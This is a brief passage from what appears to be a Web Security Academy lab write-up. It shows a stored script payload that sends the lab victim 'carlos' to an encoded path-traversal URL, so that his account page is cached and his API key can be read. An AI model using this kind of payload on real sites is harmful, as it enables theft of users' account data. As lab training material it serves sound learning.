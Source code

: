 ```
<script>document.location="https://0ae6004103de88dc80821ce300e500d3.web-security-academy.net/resources/..%2fmy-account?hello"</script>
```

Store it and deliver it to carlos

<img src="images/image36.jpg" alt="third" width="500">

When I access this from url 

<img src="images/image37.jpg" alt="third" width="500">

We have carlos api key

<img src="images/image38.jpg" alt="third" width="500">
